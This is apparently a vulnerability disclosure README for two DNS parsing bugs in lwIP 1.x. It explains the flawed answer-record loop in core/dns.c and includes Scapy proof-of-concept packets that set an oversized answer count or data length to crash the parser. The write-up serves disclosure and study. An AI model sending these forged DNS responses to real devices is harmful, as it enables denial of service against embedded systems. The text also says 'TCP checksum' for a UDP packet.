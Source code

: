 About DNS bugs
====

DNS function `dns_recv` of lwIP v 1.x is valnerable.
We found two DNS bugs, and marked them as DNS bug \#1, \#2.


Summary
-----
<img alt="DNS messege fields" src="./images/DNS-message-fields.jpg" width="500px"/>

### DNS bug #1
A segmentation fault occurs when following conditions are met.

* _number of Answer Record_ is too large

### DNS bug #2
A segmentation fault occurs when following conditions are met.

* _number of Answer Record_ is larger than 1
* _Data Length_ of _Answer Record_ is too large


PoC
----
### DNS bug #1
This bug can be triggered using following Scapy code.

```python
Ether(dst="11:22:33:44:55:66")/IP(src="8.8.8.8", dst="192.168.0.2")/UDP(sport=53, dport=dport)/DNS(id=0, qdcount=1, ancount=0xffff, qr=1, aa=0, tc=0, rd=1, ra=1, z=0, rcode=0, qd=DNSQR(qname='www.google.com.', qtype=1, qclass=1), an=DNSRR(rrname="www.google.com.", type=1, rdata="127.0.0.1"))
```

### DNS bug #2
This bug can be triggered using following Scapy code.
You must correct TCP checksum.

```python
b = bytes(Ether(dst="11:22:33:44:55:66")/IP(src="8.8.8.8", dst="192.168.0.2")/UDP(sport=53, dport=dport)/DNS(id=0, qdcount=1, ancount=2, qr=1, aa=0, tc=0, rd=1, ra=1, z=0, rcode=0, qd=DNSQR(qname='www.google.com.', qtype=1, qclass=1), an=DNSRR(rrname="www.google.com.", type=1, rdata="127.0.0.1")))
b = b.replace('\x00\x04\x7f\x00\x00\x01', '\xff\xff\x7f\x00\x00\x01')
```

PoC script for this bug is available: `script/attack-dns-bug-2.py`


Detail
----
Following snippet is a part of source code `core/dns.c`:

```c
while(nanswers > 0) {
  /* skip answer resource record's host name */
  pHostname = (char *) dns_parse_name((unsigned char *)pHostname);

  /* Check for IP address type and Internet class. Others are discarded. */
  MEMCPY(&ans, pHostname, sizeof(struct dns_answer));
  if((ntohs(ans.type) == DNS_RRTYPE_A) && (ntohs(ans.class) == DNS_RRCLASS_IN) && (ntohs(ans.len) == sizeof(struct ip_addr)) ) {
    [...]
  } else {
    pHostname = pHostname + sizeof(struct dns_answer) + htons(ans.len);
  }
  --nanswers;
}
```

### DNS bug #1
`nanswers` in the continuation condition of while is the value of the low-order 1 byte of the Answer RRs of the DNS response
be equivalent to. 
This while loop performs parsing of multiple _Answer records_. 
`pHostname` is pointing to the payload of DNS, and it is a pointer that remembers how far parsed it is.
The `dns_parse_name` function reads the address pointed to by `pHostname` and returns a pointer.

There is a possibility of causing a segmentation violation in order to advance.
DNS bug # 1 triggers an unnecessary while loop of large nanswers values, and occurs segmentation fault.

### DNS bug #2
DNS bug # 2 focuses on line 10, `+ htons (ans.len)`.
The added value is equal to _Data length_ of _Answer record_.
DNS bug # 2 adds a large value so that `pHostname` points to an unmapped region,

In the second and subsequent loops, DNS bug \#2 causes a segmentation fault while executing `dns_parse_name` function.